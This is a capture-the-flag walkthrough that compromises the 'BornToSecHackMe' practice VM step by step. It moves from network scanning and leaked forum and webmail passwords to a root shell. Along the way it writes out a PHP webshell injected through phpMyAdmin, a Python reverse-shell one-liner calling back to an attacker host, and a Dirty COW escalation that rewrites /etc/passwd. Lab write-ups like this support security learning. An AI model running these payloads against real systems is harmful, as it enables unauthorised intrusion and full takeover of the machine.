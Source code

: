 # Privilege Escalation Using Dirty COW Exploit

1. Start the Machine

	Once the machine is powered on (or started from a hypervisor), wait for the boot process to reach the GRUB menu prompt.

2. Network Reconnaissance

	Using **netdiscover**, the internal network was scanned to find live hosts and services:

	```bash
	sudo netdiscover -r <your-ip/mask>
	```

	Output:

	```
	Currently scanning: Finished!   |   Screen View: Unique Hosts

	5 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 210
	_____________________________________________________________________________
	IP            At MAC Address     Count     Len  MAC Vendor / Hostname
	-----------------------------------------------------------------------------
	<vm-ip> 08:00:27:2e:4e:0b      2      84  PCS Systemtechnik GmbH
	```

3. Using **nmap**, the internal network was scanned to find live hosts and services:

	```bash
	nmap -p- -sV <vm-ip>
	```

	Result: Host with several open services:

	* FTP (vsftpd 2.0.8+)
	* SSH (OpenSSH 5.9p1)
	* HTTP/HTTPS (Apache 2.2.22)
	* IMAP and SSL/IMAP (Dovecot)

4. Web Enumeration and Initial Access

	Use **ffuf** to fuzz directories on the webserver:

	```bash
	ffuf -u https://<vm-ip>/FUZZ -w /usr/share/wordlists/dirb/common.txt
	```

	Result:

	* `/forum` (redirects with 301)
	* `/phpmyadmin` (redirects with 301)
	* `/webmail` (redirects with 301)

5. Forum Login and Credentials Leak

	Navigate to the vulnerable web application at:

	```
	https://<vm-ip>/forum
	```

	You can find a post titled **"Probleme login ?"** by the user **lmezard**, dated *2015-10-08 00:10*.

	Inside the forum post (or associated logs), notice a suspicious log line:

	```
	Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
	```

	This is an SSH authentication failure showing an attempted login with a password.
	Using the forum's user interface, we can find the **Users** button at the top right corner of the forum page. On the Users page, several users are listed. The password from the log matches the user **lmezard**.

	In the profile or edit profile page of the user **lmezard**, we can find the registered email address:

	```
	laurie@borntosec.net
	```

6. Accessing Webmail and Database Credentials

	Logged into **webmail** with lmezard's credentials and the same password as the forum password.

	In the email titled "DB Access" we see:

	```
	Use root/Fg-'kKXBj87E:aJ$ to access databases.
	```

	We can use these credentials to login to **phpMyAdmin** at `/phpmyadmin`.

7. SQL Injection and Remote Code Execution

	In phpMyAdmin's SQL tab, we can execute:

	```sql
	SELECT "<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; ?>" 
	INTO OUTFILE '/var/www/forum/templates_c/payload.php';
	```

	Verify webshell access:

	```
	https://<vm-ip>/forum/templates_c/payload.php?cmd=whoami
	```

	Confirm it outputs `www-data`.

8. Getting Reverse Shell

	Checked for Python binary:

	```
	https://<vm-ip>/forum/templates_c/payload.php?cmd=which%20python
	```

	Got `/usr/bin/python`. Now we can give a reverse shell payload:

	```bash
	python -c "import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('<attacker-ip>',<port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn('/bin/bash')"
	```

	> Replace `<attacker-ip>` and `<port>`

	Encode the payload for URL and run it via the webshell. Listen on port 1234 with `nc -lvnp 1234` and get a reverse shell as `www-data`.
	To access the reverse shell, use `nc`:

	```bash
	nc -lvnp <port>
	```

9. Local Enumeration

	Inside the shell:

	```bash
	cd /home
	ls -l
	```

	Output:

	```bash
	total 0
	drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
	drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
	drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
	drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
	dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
	drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
	drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
	```

10. Privilege Escalation: lmezard user

	Navigate to `/home/LOOKATME` and find a `password` file:

	```
	lmezard:G!@M6f4Eatau{sF"
	```

	Switch user to lmezard:

	```bash
	su lmezard
	Password: G!@M6f4Eatau{sF"
	```

	Successfully logged in as lmezard.

11. Dirty COW Exploit to Root

	Upload and compile **dirty_cow.c** exploit in `/tmp` as lmezard.

	```bash
	cat > dirty_cow.c << EOF
	```

	Then paste the code.

	Compile and run:

	```bash
	gcc -pthread dirty_cow.c -o dirty -lcrypt
	./dirty <new-root-password>
	```

	The exploit patches `/etc/passwd` to set root password to `<new-root-password>`. Example:

	```
	toor:tojiVEjmA3vTY:0:0:pwned:/root:/bin/bash
	```

12. Final Root Access

	Use `su toor` with the new password set by the exploit and gain root shell.

	| User        | Password                    |
	| ----------- | --------------------------- |
	| lmezard     | G!@M6f4Eatau{sF"            |
	| root (toor) | (new password from exploit) |
